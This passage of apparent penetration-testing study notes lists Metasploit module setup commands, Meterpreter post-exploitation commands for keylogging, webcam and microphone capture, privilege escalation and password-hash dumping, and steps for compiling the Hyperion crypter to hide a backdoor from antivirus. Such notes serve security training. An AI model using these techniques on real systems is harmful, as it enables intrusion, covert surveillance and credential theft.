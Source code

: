 -   Building Your Own MSF Module

    -   mkdir -p ~/.msf4/modules/exploits/linux/misc  
        cd ~/.msf4/modules/exploits/linux/misc  
        cp
        /usr/share/metasploitframework/modules/exploits/linux/misc/gld\_postfix.rb
        ./crossfire.rb  
        nano crossfire.rb

-   Post Exploitation with Metasploit

    -   download Download a file or directory  
        upload Upload a file or directory  
        portfwd Forward a local port to a remote service  
        route View and modify the routing table  
        keyscan\_start Start capturing keystrokes  
        keyscan\_stop Stop capturing keystrokes  
        screenshot Grab a screenshot of the interactive desktop  
        record\_mic Record audio from the default microphone for X
        seconds  
        webcam\_snap Take a snapshot from the specified webcam  
        getsystem Attempt to elevate your privilege to that of local
        system.  
        hashdump Dumps the contents of the SAM database

-   Meterpreter Post Exploitation Features

    -   Create a Meterpreter background session  
        background

<span id="_51btodqc88s2" class="anchor"><span id="_Toc480741825" class="anchor"></span></span>Bypassing Antivirus Software 
===========================================================================================================================

-   Crypting Known Malware with Software Protectors

    -   One such open source crypter, called Hyperion  
        cp /usr/share/windows-binaries/Hyperion-1.0.zip  
        unzip Hyperion-1.0.zip  
        cd Hyperion-1.0/  
        i686-w64-mingw32-g++ Src/Crypter/\*.cpp -o hyperion.exe  
        cp -p
        /usr/lib/gcc/i686-w64-mingw32/5.3-win32/libgcc\_s\_sjlj-1.dll
        .  
        cp -p /usr/lib/gcc/i686-w64-mingw32/5.3-win32/libstdc++-6.dll
        .  
        wine hyperion.exe ../backdoor.exe ../crypted.exe
